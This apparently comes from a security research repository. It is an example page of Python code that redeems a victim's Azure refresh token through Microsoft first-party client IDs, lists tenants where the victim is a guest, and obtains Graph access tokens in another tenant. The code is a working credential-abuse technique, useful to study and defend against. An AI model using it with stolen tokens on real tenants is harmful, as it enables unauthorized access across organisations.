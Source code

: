 # Extras

## Example - Redeem FRT Across Tenants

```python
def check_tenants_api(access_token: str) -> List[Dict[str, Any]]:
    url = 'https://management.azure.com/tenants?api-version=2020-01-01'
    headers = {
        'Content-Type': 'application/json',
        'Authorization': f'Bearer {access_token}'
    }
    return requests.get(url, headers=headers).json().get('value')


azure_cli_bearer_tokens_for_azure_mgmt_api = (
    azure_cli_client.acquire_token_by_refresh_token( 
        new_azure_cli_bearer_tokens_for_graph_api.get(
            "refresh_token" 
        ),
        scopes=[
            "https://management.core.windows.net/user_impersonation" 
        ],  
    )
)

other_tenants = check_tenants_api(
    azure_cli_bearer_tokens_for_azure_mgmt_api.get('access_token')
)

pprint(other_tenants)

```

If the victim user is a B2B guest in another tenant, it should appear in the results. Pick a desired tenant ID, then run the following:

```python
tenant_b = input("Provide a tenant ID: ")

microsoft_office_client_tenant_b = msal.PublicClientApplication(
    "d3590ed6-52b3-4102-aeff-aad2292ab01c",
    authority=f"https://login.microsoftonline.com/{tenant_b}"
)

microsoft_office_tenant_b_bearer_tokens_for_graph_api = (
    microsoft_office_client_tenant_b.acquire_token_by_refresh_token(
        azure_cli_bearer_tokens_for_azure_mgmt_api.get("refresh_token"),
        scopes=["https://graph.microsoft.com/.default"],
    )
)

pprint(microsoft_office_tenant_b_bearer_tokens_for_graph_api)

check_my_oauth2PermissionGrants(
    microsoft_office_tenant_b_bearer_tokens_for_graph_api.get("access_token")
)

```
